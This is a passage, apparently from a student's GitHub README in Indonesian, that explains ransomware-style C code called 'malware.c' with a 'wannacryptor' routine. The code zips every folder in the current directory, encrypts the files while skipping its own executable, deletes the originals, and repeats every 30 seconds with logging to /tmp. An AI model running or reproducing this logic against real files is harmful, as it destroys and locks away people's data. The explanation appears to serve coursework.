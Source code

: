 ```sh
        }
    }

    encrypt_all_files(".", exe_path);
    printf("Encryption don.\n");

    for (int i = 0; i < folder_index; i++) {
        delete_directory(folders_to_delete[i]);
        printf("Folder %s deleted.\n", folders_to_delete[i]);
    }
}
```
- `struct dirent *entry;
char exe_path[1024];
readlink("/proc/self/exe", exe_path, sizeof(exe_path) - 1);
exe_path[sizeof(exe_path) - 1] = '\0';` Ambil path lengkap dari executable yang sedang berjalan agar tidak dienkripsi oleh `encrypt_all_files`.
- `snprintf(zipname, sizeof(zipname), "%s.zip", entry->d_name);
	pid_t pid = fork();
        if (pid == 0) {
            char *argv[] = {"zip", "-r", zipname, entry->d_name, NULL};
            execvp("zip", argv);
            perror("execvp zip gagal");
            exit(1);
        } else if (pid > 0) {
            zip_pids[pid_index++] = pid;
            strncpy(folders_to_delete[folder_index++], entry->d_name, sizeof(folders_to_delete[0]));
        }}` Buat .zip berisi folder tersebut (pakai `zip -r`)
- Simpan nama foldernya agar nanti dihapus
- Tunggu semua proses zip selesai
- Jalankan `encrypt_all_files()` → mengenkripsi semua `.zip` dan file lainnya (kecuali `malware.c` sendiri)
- Hapus folder-folder asli dengan `delete_directory()`

```sh
void wannacryptor() {
    FILE *log = fopen("/tmp/wannalog.txt", "a+");
    if (!log) exit(1);

    while (1) {
        zip_and_encrypt();

        fprintf(log, "[wannacryptor] Enkripsi dijalankan.\n");
        fflush(log);

        sleep(30);
    }
}
```
- `FILE *log = fopen("/tmp/wannalog.txt", "a+");` Membuka file log di path `/tmp/wannalog.txt;` Mode "a+" berarti: buka untuk baca/tulis
- `while (1) {
        zip_and_encrypt();` Mengarsip (zip) semua folder di direktori saat ini, mengenkripsi semua file zip dan file lain, lalu menghapus folder asli setelah zip.
![Screenshot 2025-04-18 110512](https://github.com/user-attachments/assets/5da8a2a8-e587-4585-ac4c-3296b003e9f2)
